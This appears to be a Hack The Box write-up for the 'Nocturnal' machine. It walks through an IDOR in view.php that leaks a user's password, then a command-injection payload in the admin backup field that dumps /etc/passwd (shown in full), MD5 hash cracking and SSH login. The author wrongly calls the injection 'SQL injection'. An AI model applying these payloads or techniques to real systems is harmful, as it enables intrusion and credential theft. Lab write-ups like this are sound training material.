 # Write-up: Nocturnal from Hack The Box (Linux, easy machine)

### I started with a very simple nmap scan (nmap -sC -sV @ip):

![htb](https://github.com/user-attachments/assets/32684602-99fa-453d-baea-af0ae210f711)

### Trying to acces port 80 (web app)

I tried accessing the website in my browser, but it did not let me access the file (because of DNS or something like that)

I could only acces the website after changing /etc/hosts file by adding the ip and website link (ip 10.10.10.X for example, and then nocturnal.htb). So make sure to modify your hosts file, otherwise you wont be able to access the website locally!

When I got access to the website I went straight into checking the functionality, I scanned existing names with the python script in the file I attached (test.py). The script scans if the names in the wordlist are used on the web app.

You can run the script with:

```
To run: python3 test.py <cookies_here>
```

And make sure to replace <cookies_here> with the cookies (inspect > storage > local > get the cookie value)

After scanning the names I got back: admin, amanda, tobias.


### Continuing with the information I had found

I found that the website (when authorized) allowed you to access /view.php (which did not give me any information, but it had a custom UI, so it meant something). If I assigned values for user and file, it would show me what user the files had. I did not even have to specify which file. It would tell me if that file existed, and regardless of that answer I could see other files of that user.

So when I went to: 

```http://nocturnal.htb/view.php?user=amanda&file=e.pdf```

I found a file named: "privacy.odt" which was a mail which had a temporary password for amanda.

I tried logging in with the details provided (into the web app), and succesfully logged in!

I then saw that there was a admin panel option for amanda.

### Admin panel

When I went to the admin panel, I saw a field where if I entered a password, it would give me a backup of the files of the web app. So I entered the same login credentials provided from the mail (privacy.odt) and succesfully got the zip.

I analyzed the php files, and could notice that there were many input fields to inject some SQL into. So thats what I did!

### SQL-injection

I started with running this into the backup files field:

```password=test%0Acat%09/etc/passwd%09>%09../uploads/passwd.txt```

I got this back:

```
sh: 2: ../uploads/passwd.txt: not found
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
tobias:x:1000:1000:tobias:/home/tobias:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
ispapps:x:1001:1002::/var/www/apps:/bin/sh
ispconfig:x:1002:1003::/usr/local/ispconfig:/bin/sh
smmta:x:115:120:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/nologin
smmsp:x:116:121:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/nologin
_laurel:x:997:997::/var/log/laurel:/bin/false
```

Which means that the commands were working!

After running some other commands I got access to the userIds, and md5 hashes of the users. I decrypted the hashes with crackstation and got access to tobias account.

### Access to tobias account

I continued in a new terminal with the following:

```
ssh tobias@ip
```

and I entered the password, and BOOM! I have access to his files (or in other words, I have access to user.txt which contains the user flag!)

I did this with ls and then cat > user.txt!





After I got the user.txt I forgot to document how I got the root flag, but I will give you a tip!

Tip: ISPConfig panel

Very fun Machine on Hack The Box!
Hope this helps!
